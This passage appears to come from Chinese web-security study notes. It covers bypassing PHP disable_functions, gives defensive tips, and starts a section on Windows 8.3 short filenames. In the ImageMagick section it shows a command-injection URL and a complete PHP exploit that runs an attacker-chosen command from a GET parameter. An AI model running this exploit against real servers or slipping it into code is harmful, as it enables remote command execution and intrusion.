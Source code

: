 Shell.Application也可以实现同样的效果

彻底的解决方案是 直接删除System32目录下wshom.ocx文件

#### 拓展库绕过
Linux下可通过编译拓展库进行绕过
防御方法：将dl函数加入disable_function中禁用

#### imagemagick组件
Delegate命令执行
%m被定义为输入的图片格式,也就是我们输入的url地址。但是由于只是做了简单的字符串拼接,所以我们可以将引号闭合后通过管道符带入其他命令,也就形成了命令注入。

比如url为:https://example.com"|ls "-la

那实际命令就变成了:

"wget" -q -O "%o" " https://example.com"|ls "-la"
ls –la被执行了。

EXP：

```php
<?php 
echo "Disable Functions: " . ini_get('disable_functions') . "\n"; 
 
$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd']; 
if ($command == '') {
    $command = 'id'; 
}
 
$exploit = <<<EOF 
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|$command")' 
pop graphic-context 
EOF; 
 
file_put_contents("KKKK.mvg", $exploit); 
$thumb = new Imagick(); 
$thumb->readImage('KKKK.mvg'); 
$thumb->writeImage('KKKK.png'); 
$thumb->clear(); 
$thumb->destroy(); 
unlink("KKKK.mvg"); 
unlink("KKKK.png"); 
?>
```

## 短文件名
> windows下的短文件名是dos+fat12/fat16时代的产物，又称为8dot3命名法
> 8是指文件名或目录名的主体部分小于等于8个字符
> 3是指文件名或目录名的扩展部分小于等于3个字符
> 中间以 . 作为分割在FAT16文件系统中，由于FDT中的文件目录登记项只为文件名保留了8个字节，为扩展名保留了3个字节，所以DOS和Windows的用户为文件起名字时要受到8.3格式的限制
> 从win95开始，采用fat32已经支持长文件名
> 但是为了保持兼容性，保证低版本的程序能正确读取长文件名文件，每当创建新文件或新目录时，系统自动为所有长文件名文件创建了一个对应的短文件名。
> 使这个文件既可以用长文件名寻址，也可以用短文件名寻址。
